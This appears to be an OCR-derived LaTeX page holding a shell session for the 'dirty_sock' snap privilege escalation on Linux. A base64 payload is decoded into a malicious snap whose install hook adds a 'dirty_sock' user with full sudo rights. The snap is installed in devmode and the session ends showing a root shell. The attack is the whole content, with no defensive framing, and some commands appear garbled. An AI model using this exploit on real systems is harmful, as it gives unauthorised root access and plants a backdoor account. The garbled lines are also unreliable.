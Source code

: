 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /tmp}
\ExtensionTok{pytho}\NormalTok{ -c }\StringTok{'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD}
\StringTok{//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29}
\StringTok{jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1}
\StringTok{EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2Q}
\StringTok{gLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N}
\StringTok{1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciB}
\StringTok{leHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiA}
\StringTok{gJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAA}
\StringTok{BaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3F}
\StringTok{qfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4}
\StringTok{wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRj}
\StringTok{NEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPt}
\StringTok{vjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAA}
\StringTok{AAAAAPgMAAAAAAAAEgAAAAACAA" + "A"*4256 + "=="'} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d }\OperatorTok{>}\NormalTok{ setenso.snap}

\FunctionTok{sudo}\NormalTok{ /usr/bin/snap install setenso.snap --devmode}
\FunctionTok{cat}\NormalTok{ /etc/passwd}
\FunctionTok{sudo}\NormalTok{ dirty_sock }\OperatorTok{>}\NormalTok{ password dirty_sock}
\FunctionTok{sudo}\NormalTok{ su }\OperatorTok{>}\NormalTok{ password dirty_sock}

\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}


\end{document}
